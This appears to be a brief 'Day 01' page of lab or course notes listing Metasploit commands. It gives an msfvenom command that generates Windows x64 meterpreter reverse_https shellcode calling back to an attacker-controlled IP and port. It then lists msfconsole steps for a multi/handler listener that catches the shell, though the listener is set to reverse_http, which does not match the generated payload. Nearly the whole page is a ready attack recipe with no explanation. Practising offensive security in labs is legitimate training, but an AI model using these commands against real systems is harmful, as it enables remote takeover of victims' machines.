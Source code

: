 <div align="center">
  <h1>Day 01</h1>
  <br/>
</div>

<h2>Metasploit commands:</h2>
<h3>Shellcode generation:</h3>
<ul>
<li>msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.61.38 LPORT=9999 -f go</li>
</ul>

<h3>Listener:</h3>
<ol>
<li>msfconsole</li>
<li>exploit/multi/handler</li>
<li>set payload windows/x64/meterpreter/reverse_http</li>
<li>set LHOST <Kali IP address></li>
<li>set LPORT <non-standard port></li>
<li>run</li>
</ol>